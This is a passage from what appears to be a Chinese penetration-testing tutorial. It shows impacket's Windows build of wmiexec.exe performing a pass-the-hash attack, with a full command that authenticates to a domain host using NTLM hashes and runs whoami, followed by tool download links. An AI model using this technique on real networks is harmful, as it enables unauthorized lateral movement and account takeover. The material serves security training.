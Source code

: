 #### 4.2.4.2 impacket-examples-windows

impacket-examples-windows 是 impacket(网络协议工具包)的 windows 版本，包含 了几十款工具，这里使用 wmiexec.exe 来演示 pth 攻击。

```bash
wmiexec.exe -hashes b084e803561e306bff17365faf1ffe89:db23832fd3822fcaea5c019f090fe752 ADTEST/jeff1@192.168.19.14 "whoami"

```

![](images/yushentou/15899758027123.png)

![](images/yushentou/15899758068779.png)


下载地址:

> impacket-examples-windows:

https://github.com/maaaaz/impacket-examples-windows/releases

> impacket:

https://github.com/SecureAuthCorp/impacket


